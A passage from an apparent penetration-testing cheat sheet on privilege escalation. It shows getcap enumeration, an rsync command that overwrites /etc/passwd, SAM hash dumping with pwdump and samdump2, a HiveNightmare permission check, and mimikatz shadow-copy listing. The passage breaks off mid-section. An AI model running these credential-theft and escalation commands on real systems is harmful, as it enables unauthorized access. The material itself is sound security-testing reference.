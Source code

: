 ```

### File Capabilities
```
File capabilities are certain permissions you can give to binaries.
Instead of giving a binary ‘sudo’ permission, you can give the binary certain elevated permissions. This is considered
a safer practise than giving the binary full permissions, as sometimes a binary only needs elevated permissions for a few selected functions.
https://manpages.ubuntu.com/manpages/lunar/en/man7/capabilities.7.html

# List all file capabilities
getcap -r / 2>/dev/null

# RSYNC
rsync is a utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers.
# Copy files using rsync
rsync /etc/passwd /home/destination/
rsync passwd /etc/passwd
```

### SAM and System Files
The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.
```
Generate a hash file for John using pwdump or samdump2.

pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```
Hive Nightmare
Check for the vulnerability using icacls
```
icacls config\SAM

OUTPUT:
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```
Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.
```
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies
